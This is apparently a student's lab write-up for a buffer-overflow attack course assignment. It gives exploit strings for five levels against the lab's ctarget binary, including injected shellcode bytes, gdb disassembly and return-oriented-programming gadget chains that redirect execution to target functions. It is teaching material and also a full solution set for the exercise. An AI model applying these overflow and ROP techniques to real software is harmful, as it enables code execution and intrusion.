

# Buffer Overflow Attack Notes

:dagger: => :computer:

## LEVEL 1

By testing how many bytes the `getbuf` can receive most, and reading the assembly code, we derive that it could take up to 55 characters wothout exiting abnormally.

The address of `touch1`: `00000000004016ed`. We need to insert it to `(%rsp)` right after it called `getbuf`.

The string we need to input in hex representation is shown below:

```txt
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 ed 16 40
```

Or... Add some magic.

```txt
54 68 65 20 62 69 67 20 62 72
6f 74 68 65 72 20 69 73 20 77
61 74 63 68 69 6e 67 20 68 69
6d 21 20 59 6f 75 27 6c 6c 20
62 65 20 73 65 6e 74 20 74 6f
20 31 30 31 2e 2e ed 16 40
```

By running the following command, we could input the target string to `stdin`:

```sh
./hex2raw < exploit.txt > exploit-raw.txt
./ctarget < exploit-raw.txt
```

We get the first hacking attempt done!

## Let's go to LEVEL 2

In this level. We have two things to do.

- Jump to cookie `0x4016d7`
- Change the parameter in touch2 to `cookie`

Find out the `%rsp` value in `getbuf`.

```sh
(gdb) b getbuf
Breakpoint 1 at 0x4016d7: file buf.c, line 12.
(gdb) run -q
Starting program: /mnt/c/star/computer-systems/target65/ctarget -q
Cookie: 0x110dfc17

Breakpoint 1, getbuf () at buf.c:12
(gdb) nexti
14      in buf.c
(gdb) disas
Dump of assembler code for function getbuf:
   0x00000000004016d7 <+0>:     sub    $0x38,%rsp
=> 0x00000000004016db <+4>:     mov    %rsp,%rdi
   0x00000000004016de <+7>:     callq  0x401927 <Gets>
   0x00000000004016e3 <+12>:    mov    $0x1,%eax
   0x00000000004016e8 <+17>:    add    $0x38,%rsp
   0x00000000004016ec <+21>:    retq   
End of assembler dump.
(gdb) p $rsp
$4 = (void *) 0x5567c608
```

`%rsp` in getbuf is `0x5567c608`.  
If `Gets` would return to it, we can inject exploit code in `%rsp` and then execute them.  
To call `touch2` while changing the parameter. We need to execute following instructions:

```s
mov $0x110dfc17, %rdi   # mov cookie to param1
pushq $0x40171b         # push address of touch2
ret
```

whose byte code is:

```s

asm-exploit.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 17 fc 0d 11 	mov    $0x110dfc17,%rdi
   7:	68 1b 17 40 00       	pushq  $0x40171b
   c:	c3                   	retq   
```

We need to inject these byte code to `%rsp` and overwrite the return address after 56 bytes.

```txt
48 c7 c7 17 fc 0d 11 68
1b 17 40 00 c3          /* exploit byte code, 13 bytes */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00
08 c6 67 55             /* after Gets, return to %rsp, 4 bytes */
```

Also, adding some magic :joy:

```txt
48 c7 c7 17 fc 0d 11 68
1b 17 40 00 c3          /* exploit byte code, 13 bytes */
48 6f 70 65 2c 61 20 67 /* Hope,a good thing. No good things ever dies */
6f 6f 64 20 74 68 69 6e
67 2e 20 4e 6f 20 67 6f
6f 64 20 74 68 69 6e 67
73 20 65 76 65 72 20 64
69 65 73
08 c6 67 55             /* after Gets, return to %rsp, 4 bytes */
```

## LEVEL 3

In this phase, we need to pass paremeter as a string. As usual, we need to jump to `touch3` in the first place.

The string should be stored in a safe place. The reason is that after `getbuf` returned, its stack frame may be overwrriten by `hexmatch` and `strncmp` called in `touch3`. Actually, I find myself lucky enouch to find out a place that probably wouldn't be overwritten. That's a way to solve it...

Here's a better version.

The first thing we wanna do is to change the `cookie` into hex representation. My `cookie` is `0x110dfc17`, which is `31 31 30 64 66 63 31 37 00` in hex (mind the trailing zero).

Where is safe? `getbuf` is called by `test`, we might just as well save the string in stack frame of `test`.

How about the exploit code? Well, we just need to load the address of `cookie` string to `%rdi` and then return to `touch3`.

Now, just like what we do in LEVEL 2. We change the return address of `getbuf` to `%rsp`. By directly writing `touch3`'s address to buffer, we can simply use a ret in exploit code to jump to it. And above all these, we encode the cookie string safely.

exploit code:

```s
leaq 8(%rsp),%rdi    # when executing, cookie is at %rsp+8
ret
```

```txt
48 8d 7c 24 08 c3 00 00 /* exploit code, 6 bytes */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
08 c6 67 55 00 00 00 00 /* return to %rsp (exploit code) */
f6 17 40 00 00 00 00 00 /* return to touch3 */
31 31 30 64 66 63 31 37
00                      /* string cookie, 9 bytes */
```

## LEVEL 4

Ways to attack programs in LEVEL 1 to 3 is easy to be defensed, by stack randomization or simply self-caused segmentation fault.  
It's time for a new kind of attack called **Return-Oriented Programming, (ROP)**.

The strategy with ROP is to identify byte sequences within an existing program.that consist of one or more instructions followed by the instruction ret. Such a segment is referred to as a gadget.  
The figure below illustrates how the stack can be set up to execute a sequence of n gadgets. In this figure, the stack contains a sequence of gadget addresses. Each gadget consists of a series of instruction bytes, with the final one being 0xc3, encoding the ret instruction. When the program executes a ret instruction starting with this configuration, it will initiate a chain of gadget executions, with the ret instruction at the end of each gadget causing the program to jump to the beginning of the next.

A gadget can make use of code corresponding to assembly-language statements generated by the compiler, especially ones at the ends of functions. In practice, there may be some useful gadgets of this form, but not enough to implement many important operations. For example, it is highly unlikely that a compiled function would have popq %rdi as its last instruction before ret. Fortunately, with a byte-oriented instruction set, such as x86-64, a gadget can often be found by extracting patterns from other parts of the instruction byte sequence.

As for our attack, we need to devise a method to load `cookie` to `%rdi` then 'return' to `touch2`.  
The data can be encoded in the stack. To load it, we need the help of `pop` instruction.  
In address `0x401898+3` in `setval_242`, we found an `58` which alone means `popq %rax`, followed by `90 90 c3` which is `nop nop retq`, do nothing and return.  
So we can 'return' to this address by buffer overflow, encoding our `cookie` in the higher 8 bytes.  
Next, load our `cookie` into parameter register `%rdi`.  
From address `0x40189f+3`, we find `89 c7 c3`, which means `mov %eax,%edi` and then return. Up to now, we've got all the gadgets we need.

Encode our gadgets into exploit hex.

```txt
/* 56 bytes of padding buffer */
33 33 33 33 33 33 33 23
66 66 66 66 66 66 66 66
49 20 6c 6f 76 65 20 49
43 53 2c 20 62 75 74 20
49 43 53 20 64 6f 6e 27
74 20 6c 6f 76 65 20 6d
65 2e 2e 2e 3a 2d 28 00
/* gadget code */  
9b 18 40 00 00 00 00 00 /* 0x401898+3 popq %rax ..nop.. */
17 fc 0d 11 00 00 00 00 /* cookie to pop */
a2 18 40 00 00 00 00 00 /* 0x40189f+3 mov %eax,%edi */
1b 17 40 00 00 00 00 00 /* call touch2 */
```

Done! :tada:

## Finally, LEVEL 5

Let's make our tasks clear:

1. Save the cookie as a string
2. Load its address to $rdi
3. Jump to function `touch3`

Things we've known:

- My `cookie` is `0x110dfc17`, which is `31 31 30 64 66 63 31 37 00` in hex.

We need to carefully devise our exploit code:

```asm
/* 56 bytes of padding buffer */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
/* gadget code */  
d7 18 40 00 00 00 00 00 /* movq %rsp,%rax */
b4 18 40 00 00 00 00 00 /* movq %rax,%rdi */
9b 18 40 00 00 00 00 00 /* popq %rax */
48 00 00 00 00 00 00 00 /* $offset */
f8 18 40 00 00 00 00 00 /* 0x4018f0+2 bytes movl %eax,%edx */
05 19 40 00 00 00 00 00 /* 401904 movl %edx,%ecx */
67 19 40 00 00 00 00 00 /* movl %ecx,%esi */
c4 18 40 00 00 00 00 00 /* lea    (%rdi,%rsi,1),%rax */
a1 18 40 00 00 00 00 00 /* load address to %rdi movq %rax,%rdi */
f6 17 40 00 00 00 00 00 /* call touch3 */
31 31 30 64 66 63 31 37 00 /* cookie string */
```
